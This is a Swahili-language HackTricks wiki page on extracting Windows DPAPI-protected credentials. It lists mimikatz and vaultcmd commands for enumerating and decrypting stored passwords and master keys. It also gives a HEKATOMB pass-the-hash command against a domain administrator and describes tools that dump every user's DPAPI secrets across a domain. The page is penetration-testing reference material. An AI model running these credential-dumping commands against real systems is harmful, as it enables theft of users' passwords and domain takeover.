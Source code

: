# DPAPI - Kutolewa kwa Nywila

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) ni tukio muhimu zaidi la usalama wa mtandao nchini **Hispania** na moja ya muhimu zaidi barani **Ulaya**. Kwa **lengo la kukuza maarifa ya kiufundi**, kongamano hili ni mahali pa kukutana kwa wataalamu wa teknolojia na usalama wa mtandao katika kila taaluma.

{% embed url="https://www.rootedcon.com/" %}

## DPAPI ni Nini

Data Protection API (DPAPI) inatumika hasa ndani ya mfumo wa uendeshaji wa Windows kwa **kuficha funguo za kibinafsi za asimetriki**, ikitumia siri za mtumiaji au mfumo kama chanzo muhimu cha entropy. Njia hii inarahisisha ufichaji kwa waendelezaji kwa kuwapa uwezo wa kuficha data kwa kutumia funguo zilizotokana na siri za kuingia za mtumiaji au, kwa ufichaji wa mfumo, siri za uthibitishaji wa kikoa cha mfumo, hivyo kuondoa haja kwa waendelezaji kusimamia ulinzi wa funguo za ufichaji wenyewe.

### Data Iliyolindwa na DPAPI

Miongoni mwa data binafsi zilizolindwa na DPAPI ni:

* Nywila za Internet Explorer na Google Chrome na data za kukamilisha kiotomatiki
* Nywila za barua pepe na akaunti za FTP za ndani kwa programu kama Outlook na Windows Mail
* Nywila za folda za pamoja, rasilimali, mitandao isiyo na waya, na Windows Vault, ikiwa ni pamoja na funguo za ufichaji
* Nywila za muunganisho wa desktop ya mbali, .NET Passport, na funguo za kibinafsi kwa madhumuni mbalimbali ya ufichaji na uthibitishaji
* Nywila za mtandao zinazodhibitiwa na Credential Manager na data binafsi katika programu zinazotumia CryptProtectData, kama Skype, MSN messenger, na zaidi

## Orodha ya Vault
```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```
## Fail ya Akida

Fail **za akida zilizolindwa** zinaweza kupatikana katika:
```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
Pata taarifa za akidi kwa kutumia mimikatz `dpapi::cred`, katika jibu unaweza kupata taarifa za kuvutia kama vile data iliyosimbwa na guidMasterKey.
```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```
Unaweza kutumia **mimikatz module** `dpapi::cred` na `/masterkey` inayofaa ili kufungua:
```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```
## Master Keys

Vifunguo vya DPAPI vinavyotumika kwa ajili ya kuficha funguo za RSA za mtumiaji vinahifadhiwa chini ya saraka ya `%APPDATA%\Microsoft\Protect\{SID}`, ambapo {SID} ni [**Kitambulisho cha Usalama**](https://en.wikipedia.org/wiki/Security\_Identifier) **cha mtumiaji huyo**. **Funguo la DPAPI linahifadhiwa katika faili ile ile na funguo kuu inayolinda funguo za faragha za watumiaji**. Kwa kawaida ni bytes 64 za data za nasibu. (Kumbuka kwamba saraka hii inalindwa hivyo huwezi kuorodhesha kwa kutumia `dir` kutoka cmd, lakini unaweza kuorodhesha kutoka PS).
```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```
Hii ndiyo inavyoonekana kwa kundi la Master Keys za mtumiaji:

![](<../../.gitbook/assets/image (1121).png>)

Kawaida **kila master key ni funguo ya simetriki iliyosimbwa ambayo inaweza kufungua maudhui mengine**. Hivyo, **kuchota** **Master Key iliyosimbwa** ni ya kuvutia ili **kuifungua** baadaye **maudhui mengine** yaliyosimbwa nayo.

### Chota master key & fungua

Angalia chapisho [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin) kwa mfano wa jinsi ya kuchota master key na kuifungua.

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) ni bandiko la C# la baadhi ya kazi za DPAPI kutoka kwa [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) mradi.

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) ni chombo kinachotumia otomatiki kuchota watumiaji wote na kompyuta kutoka kwenye directory ya LDAP na kuchota funguo za nakala za kudhibiti eneo kupitia RPC. Skripti itatatua anwani za IP za kompyuta zote na kufanya smbclient kwenye kompyuta zote ili kupata DPAPI blobs za watumiaji wote na kufungua kila kitu kwa funguo za nakala za eneo.

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

Kwa orodha ya kompyuta zilizochotwa kutoka LDAP unaweza kupata kila mtandao wa chini hata kama hukujua!

"Kwa sababu haki za Domain Admin hazitoshi. Wavunje wote."

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI) inaweza kuchota siri zilizolindwa na DPAPI kiotomatiki.

## Marejeleo

* [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) ni tukio muhimu zaidi la usalama wa mtandao nchini **Hispania** na moja ya muhimu zaidi barani **Ulaya**. Kwa **lengo la kukuza maarifa ya kiufundi**, kongamano hili ni mahali pa kukutana kwa wataalamu wa teknolojia na usalama wa mtandao katika kila taaluma.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
